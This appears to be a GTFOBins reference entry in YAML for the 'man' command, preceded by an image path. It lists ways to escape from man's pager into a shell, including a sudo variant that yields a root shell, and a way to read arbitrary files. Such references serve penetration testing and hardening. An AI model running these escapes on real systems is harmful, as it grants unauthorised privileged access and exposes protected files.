 ```yaml
---
description: This invokes the default pager, which is likely to be  [`less`](/gtfobins/less/), other functions may apply.
functions:
  shell:
    - code: |
        man man
        !/bin/sh
  file-read:
    - code: man file_to_read
  sudo:
    - code: |
        sudo man man
        !/bin/sh
---
```

